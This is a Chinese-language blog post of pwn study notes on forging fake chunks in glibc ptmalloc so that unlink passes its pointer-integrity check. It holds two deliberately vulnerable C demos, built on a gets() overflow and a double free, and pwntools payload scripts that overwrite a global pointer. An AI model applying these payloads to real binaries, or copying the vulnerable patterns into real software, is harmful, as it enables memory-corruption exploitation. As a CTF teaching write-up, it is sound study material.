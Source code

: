 ```yaml
---
layout:     post
title:      "ptmalloc堆块伪造"
subtitle:   "基于unlink的check机制"
date:       2018-07-11 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - Linux
    - 笔记
 
---
```



##0x00原理
1.ptmalloc的相邻空块合并原则。

2.堆chunk本身的结构机制。

##0x01详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

##0x02要求

有check的堆溢出利用。

* 有两个相邻的堆块
* 第一个堆块可溢出第二个
* 释放第二个堆，即可触发。

或者

* 有一个已分配的堆
* 有一个指向堆上的可控指针
* free参数可控

这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：



	1.分配两个堆
	2.释放掉这两个堆
	3.分配一个可以包含住前面两个堆的大堆块
	4.写入这个大堆块构造两个伪chunk
	5.通过第2步中释放两个堆

这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。
##0x03用的效果
如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


##0x04演示
为了具体的说明问题，这里写了两个demo演示效果。
###Demo1


	void *global[80];
	
	void *global[80];
	
	int main(void)
	{
	    void *p1,*p2;
	    p1=malloc(200);
	    p2=malloc(200);
	    global[40]=p1;
	    printf("before exploit:%x\n",global[40]);
	    puts("read");//for debug
	    gets(p1);//overflow
	    free(p2);
	    printf("after exploit:%x\n",global[40]);
	    return 0;
	}


这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

	from pwn import*
	io=elf('./demo1')
	io.recvuntil('read')
	sc=p32(0x0)+p32(0xc9)+p32(0x804A100-0xc)+p32(0x0804A100-0x8)+'a'*(200-16)+p32(0xc8)+p32(0xd0)
	io.sendline(sc)
	io.read()


###Demo2

	int *global[40];
	int main(void)
	{
	  void *p1,*p2,*p3;
	  p1=malloc(200);
	  p2=malloc(200);
	  global[20]=p1;
	  free(p1);
	  free(p2);
	  p3=malloc(500);
	  puts("get");//for debug
	  gets(p3);
	  free(p2);
	  return;
	}

这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。


	from pwn import*
	io=elf('./demo2')
	io.recvuntil('get')
	sc=p32(0x0)+p32(201)+p32(0x804a0b0-0xC)+p32(0x804a0b0-0x8)+'a'*(200-16)+p32(200)+p32(0x128)
	io.sendline(sc)
	io.read()





